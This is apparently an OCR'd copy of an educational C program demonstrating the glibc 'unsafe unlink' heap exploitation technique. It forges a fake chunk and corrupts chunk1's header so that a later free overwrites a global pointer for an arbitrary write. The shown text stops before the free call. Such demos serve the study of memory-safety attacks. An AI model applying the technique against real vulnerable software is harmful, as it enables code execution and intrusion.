 ## unsafe unlink 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

uint64_t *chunk0_ptr;

int main()
{
	setbuf(stdout, NULL);
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 20.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x420; //we want to be big enough not to use tcache or fastbin
	int header_size = 2;

	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the size of our fake chunk so that we can bypass the check introduced in https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f\n");
	chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x430, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
```